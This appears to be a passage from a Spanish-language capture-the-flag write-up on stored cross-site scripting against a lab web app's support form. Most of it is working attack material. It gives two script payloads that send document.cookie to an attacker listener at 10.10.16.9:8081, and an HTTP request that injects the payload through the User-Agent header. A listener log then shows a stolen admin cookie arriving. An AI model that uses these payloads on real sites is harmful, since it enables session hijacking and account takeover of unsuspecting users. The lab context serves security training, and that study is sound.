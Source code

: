 ```Shell
<script>var i=new Image(); i.src='http://10.10.16.9:8081/?cookie='+btoa(document.cookie);</script>
```

```Shel
<script>var i=new Image(); i.src='http://10.10.16.9:8081/?cookie=' + document.cookie</script>
```


```html
POST /support HTTP/1.1

Host: 10.10.11.8:5000

User-Agent: <script>var i=new Image(); i.src='http://10.10.16.19:8081/?cookie='+btoa(document.cookie);</script>

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://10.10.11.8:5000/support

Content-Type: application/x-www-form-urlencoded

Content-Length: 98

Origin: http://10.10.11.8:5000

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs

Upgrade-Insecure-Requests: 1

Priority: u=0, i
```

Resultado:

```Shell
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.8 - - [27/Apr/2025 20:31:09] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

Explicación: El script malicioso fue ejecutado y las cookies de la sesión se enviaron a nuestro servidor HTTP en la IP `10.10.16.9:8081`.

---